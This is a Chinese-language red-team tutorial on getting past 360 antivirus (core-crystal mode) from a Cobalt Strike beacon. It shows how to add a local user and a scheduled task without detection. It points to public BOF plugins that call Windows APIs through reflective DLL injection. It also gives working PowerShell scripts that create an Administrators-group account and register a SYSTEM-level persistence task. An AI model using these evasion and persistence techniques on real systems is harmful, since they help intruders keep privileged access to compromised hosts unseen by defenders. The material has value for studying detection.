




# 前言

通常情况下直接执行cmd命令来添加用户或者计划任务都会被杀软拦截，我总结两种方法来绕过杀软的检测，分别是调用Windows Api(编写CS bof)或者执行Powershell脚本(通过模拟powershell环境的程序来执行)


# 添加用户

## 拦截情景

在开启360核晶模式的环境下，在UI界面执行添加用户的命令都会被拦截

	


更别说是在beacon命令行界面执行添加用户命令了，这里我分别尝试使用shell命令和run命令来添加用户，均被核晶拦截了

> `shell`命令：此命令允许你执行Windows命令提示符（cmd.exe）中的任何命令。执行的命令将在命令提示符中运行，并将其输出返回给CobaltStrike。这是一个交互式命令，意味着你可以在输出返回后立即输入下一个命令
>
> `run`命令：此命令用于在新的进程中运行程序或命令。与`shell`命令不同，它只是启动新的进程并返回。

	

			


## 绕过方法

### 1.CS bof

在Windows API中，有一些函数用于处理网络用户和本地组的管理。`NetUserAdd()` 函数用于在一个服务器上创建一个新用户，而 `NetLocalGroupAdd()` 函数可以用于在一个本地服务器上创建一个新的用户组

此CS插件整合了添加用户的API，并通过反射dll注入的方式实现无文件落地执行，github项目地址：https://github.com/crisprss/BypassUserAdd

首先确定beacon进程拥有system权限，这里我使用此插件添加用户的第一个方法`Reflection NetUserAdd`，随后输入添加用户名及密码

		

	


运行成功后在beacon命令行会提示


核晶全程没有查杀，cmd命令行输入`net user`可以发现user4用户添加成功了


### 2.Powershell脚本

以下是添加用户的Powershell脚本

```powershell
# 使用管理员权限运行此脚本

# 定义新用户的用户名和密码
$userName = "NewUser"
$password = ConvertTo-SecureString "Password123" -AsPlainText -Force

# 创建本地用户账户
New-LocalUser -Name $userName -Password $password -FullName "New User" -Description "This is a new user."

# 添加新用户到 "Users" 组
Add-LocalGroupMember -Group "Administrators" -Member $userName

# 输出创建的用户信息
Get-LocalUser -Name $userName
```


以下是执行powershell脚本的效果图：


​	

# 添加计划任务	

## 拦截情景

beacon命令行执行shell命令来添加计划任务，直接被核晶拦截

```
schtasks /create /tn "My Task" /tr "C:\MyApp.exe" /sc daily /st 10:00
```




## 绕过方法

### 1.CS bof

在Windows api中，你可以使用 Task Scheduler （任务计划程序）API 来创建和管理计划任务。任务计划程序 API 是一组 COM 接口，你可以通过各种编程语言（如 C++，C#，VBScript 等）来使用它

CobaltStrike有个叫Bof的功能，它允许你使用C语言来扩展Beacon的功能，运行时可以直接加载到内存中并执行，因此可以通过编写创建计划任务的bof来绕过一些杀软的检测	此处github上有现成的项目：https://github.com/yanghaoi/CobaltStrike_CNA	

加载github项目的插件后，鼠标右键上线会话，`Persistence`->`计划任务`->`Add-TaskAPI`, 通过调用Windows API来添加计划任务


设置添加计划任务的详细信息

	


添加计划任务后, 会在Beacon命令行提示任务创建成功


查看目标主机的计划任务列表，可以看到计划任务添加成功了，并且360核晶全程没有报毒

	


### 2.PowerShell脚本

配合模拟powershell环境的可执行程序执行ps1脚本，以此实现添加计划任务，如下是添加计划任务的ps1脚本代码

```powershell
# 定义任务的名称、要运行的程序和参数、描述信息
$taskName = "\Explorer\test1"
$programPath = "C:\Path\To\Your\Program\MyProgram.exe"
$programArgs = "base64"
$taskDescription = "This is a scheduled task running a program daily at 12:00 PM."


# 如果任务已经存在，先删除
if((Get-ScheduledTask | Where-Object { $_.TaskName -eq $taskName }) -ne $null) {
    Unregister-ScheduledTask -TaskName $taskName -Confirm:$false
}

# 设定触发器
$trigger = New-ScheduledTaskTrigger -Daily -At 17:56pm  #在每天的12:00 PM运行任务
#$trigger = New-ScheduledTaskTrigger -AtStartup       #在每次启动时运行任务
#$trigger = New-ScheduledTaskTrigger -AtIdle          #在系统空闲时运行任务 

# 设定任务的操作，即要运行的程序和参数
$action = New-ScheduledTaskAction -Execute $programPath -Argument $programArgs

# 创建一个以系统权限运行的计划任务
$principal = New-ScheduledTaskPrincipal -UserID "NT AUTHORITY\SYSTEM" -LogonType ServiceAccount -RunLevel Highest

# 创建计划任务
Register-ScheduledTask -TaskName $taskName -Trigger $trigger -Action $action -Principal $principal -Description $taskDescription

# 删除指定的计划任务
# $taskToDelete = "\Explorer\test2"
# if((Get-ScheduledTask | Where-Object { $_.TaskName -eq $taskToDelete }) -ne $null) {
    # Unregister-ScheduledTask -TaskName $taskToDelete -Confirm:$false
# }
```


运行效果如下图所示：

						

